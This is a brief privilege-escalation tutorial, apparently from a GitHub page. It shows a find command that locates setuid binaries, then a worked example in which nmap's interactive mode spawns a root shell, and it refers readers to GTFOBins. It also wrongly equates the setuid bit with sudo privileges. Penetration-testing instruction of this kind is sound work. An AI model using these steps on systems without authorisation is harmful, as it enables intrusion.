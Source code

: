 ```shell
find / -perm +6000 2>/dev/null | grep '/bin/'
```

This command will find a display paths to binaries that have the su bit set AKA can be run with sudo privileges.

For example you could find many essential system bins but also some bins will stick out like nmap for example.

Your next step is to go to gtfobins website and find what are the possible ways of using that binary (nmap) of escalating privileges.
In our case...
```shell
shell$ whoami
user

shell$ nmap --interactive

nmap_shell$ !sh

shell$ whoami
root
```